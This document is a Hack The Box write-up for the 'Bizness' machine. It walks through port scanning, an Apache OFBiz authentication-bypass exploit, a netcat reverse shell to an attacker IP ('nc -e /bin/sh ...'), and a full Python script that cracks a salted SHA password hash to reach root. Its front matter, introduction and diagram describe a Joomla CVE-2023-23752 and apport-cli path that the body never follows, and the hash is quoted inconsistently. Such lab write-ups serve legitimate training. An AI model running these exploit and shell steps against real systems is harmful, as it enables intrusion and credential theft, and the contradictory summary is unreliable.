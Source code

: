 ```yaml
---

title: "Bizness"
categories: [CTF, Hack The Box]
tags: [EASY, Linux, Joomla, Local File Include, CVE-2023-23752, apport-cli 2.26.0, CVE-2023-1326]
mermaid: true
image: ../assets/img/htb/bizness/bizness.png

---
```


The exploration of the target machine began with a port scan using `nmap`, identifying active services and versions. Enumeration revealed a Joomla installation vulnerable to CVE-2023-23752, which allowed unauthorized access. Further investigation of port 80 led to discovering an authentication bypass vulnerability in Apache OFBiz, which was exploited to gain initial access through a reverse shell. During post-exploitation, a .dat file contained a hashed password, which was cracked using a custom script, ultimately providing root access.

# Overview

```mermaid
graph TD
    A[Inteligence Gathering]
    A --> B[Port Scan > Ports 22, 80]
    B --> C[Enumeration: HTTP > Joomla]
    C --> D[Exploitation > CVE-2023-23752, LFI]
    D --> E[Post-Exploitation: Privilege Escalation > Apport-Cli 2.26.0]
    E --> F[Root Shell Access]

```

## 1. Intelligence Gathering

### Port Scan

```bash
nmap -sS -Pn --open -p- 10.10.11.252 -n -T4
```

![Untitled](../assets/img/htb/bizness/Untitled.png)

Active service versions

![Untitled](../assets/img/htb/bizness/Untitled%201.png)

## 2. Enumeration

### **Port 80**

![Untitled](../assets/img/htb/bizness/Untitled%202.png)

I performed directory fuzzing:

```bash
dirb https://bizness.htb/ -w /usr/share/wordlists/dirb/big.txt
```

![Untitled](../assets/img/htb/bizness/Untitled%203.png)

[https://bizness.htb/catalog/](https://bizness.htb/catalog/) redirected to → [https://bizness.htb/catalog/control/main](https://bizness.htb/catalog/control/main).

![Untitled](../assets/img/htb/bizness/Untitled%204.png)

Searching about OFBiz

![Untitled](../assets/img/htb/bizness/Untitled%205.png)

[https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

SonicWall threat research identified a critical authentication bypass vulnerability with a CVSS score of 9.8, presenting an alarming risk to system integrity.

![Untitled](../assets/img/htb/bizness/Untitled%206.png)

Let's check first if it's vulnerable.

```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
```

![Untitled](../assets/img/htb/bizness/Untitled%207.png)

```bash
python3 exploit.py --url https://bizness.htb
```

![Untitled](../assets/img/htb/bizness/Untitled%208.png)

## 3. Exploitation

cmd

![Untitled](../assets/img/htb/bizness/Untitled%209.png)

It executes commands but doesn't provide any output, so let's try sending a shell with netcat.

```bash
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/sh 10.10.14.137 666'
```

![Untitled](../assets/img/htb/bizness/Untitled%2010.png)

I received the shell.

```bash
rlwrap -cAr nc -vnlp 666
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Initial Access

![Untitled](../assets/img/htb/bizness/Untitled%2011.png)

## 4. Post-Exploitation

### Privilege Escalation

I found the following ".dat" file.

```bash
cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c6650.dat
```

There was a hash in the strings of the file.

![Untitled](../assets/img/htb/bizness/Untitled%2012.png)

> $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN
> 

Checking the type of hash:

[Hash Type Identifier - Identify unknown hashes](https://hashes.com/en/tools/hash_identifier)

![Untitled](../assets/img/htb/bizness/Untitled%2013.png)

I couldn't crack it with John the Ripper or Hashcat

I used this script to crack the hash

[](https://github.com/PatxaSec/SHA_Decrypt/blob/main/sha2text.py)

`cracker.py`

```python
#!/bin/python3
#Author: PatxaSec

import hashlib
import base64
import os, sys
from tqdm import tqdm

class PasswordEncryptor:

    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        if not salt:
          salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
      try:
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
      except hashlib.NoSuchAlgorithmException as e:
          raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'

encryptor = PasswordEncryptor(hash_type)
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))
with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        if hashed_password == search:
            break
print(f'\n [+] Pwnd !!! {hashed_password}::::{value}')
```

![Untitled](../assets/img/htb/bizness/Untitled%2014.png)

> monkeybizness
> 

Checking if it works for the superuser

Root Access

![image.png](../assets/img/htb/bizness/image.png)